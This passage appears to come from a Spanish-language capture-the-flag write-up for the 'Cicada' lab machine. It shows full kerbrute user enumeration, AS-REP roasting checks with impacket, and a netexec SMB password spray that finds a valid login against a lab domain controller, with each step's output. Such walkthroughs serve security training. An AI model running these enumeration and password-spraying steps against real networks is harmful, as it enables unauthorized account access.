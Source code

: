 
```shell
kerbrute userenum --dc 10.10.11.35 -d cicada.htb /home/kali/Desktop/EJPT/Cicada/users.txt

2025/10/13 14:03:52 >  [+] VALID USERNAME:       Administrator@cicada.htb
2025/10/13 14:03:52 >  [+] VALID USERNAME:       Guest@cicada.htb
2025/10/13 14:03:52 >  [+] VALID USERNAME:       john.smoulder@cicada.htb
2025/10/13 14:03:52 >  [+] VALID USERNAME:       CICADA-DC$@cicada.htb
2025/10/13 14:03:52 >  [+] VALID USERNAME:       emily.oscars@cicada.htb
2025/10/13 14:03:52 >  [+] VALID USERNAME:       michael.wrightson@cicada.htb
2025/10/13 14:03:52 >  [+] VALID USERNAME:       david.orelious@cicada.htb
2025/10/13 14:03:52 >  [+] VALID USERNAME:       sarah.dantelia@cicada.htb
```



```shell
impacket-GetNPUsers -no-pass -usersfile users.txt cicada.htb/ 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User CICADA-DC$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User john.smoulder doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sarah.dantelia doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User michael.wrightson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User david.orelious doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User emily.oscars doesn't have UF_DONT_REQUIRE_PREAUTH set
```
Vamos a probar los diferentes usuarios para esa contraseña anteriormente encontrada.

```shell
netexec smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\Administrator:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\Guest:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\krbtgt:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\CICADA-DC$:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
```
Como se puede apreciar tenemos una coincidencia del usuario `michael.wrightson` que es positiva por tanto vamos a enumerar los recursos compartidos que existen y los que podemos tener acceso.  Vemos que tenemos el mismo capacidad de listar los recursos sin novedades por lo tanto puede que tengamos que movernos a otro usuario.
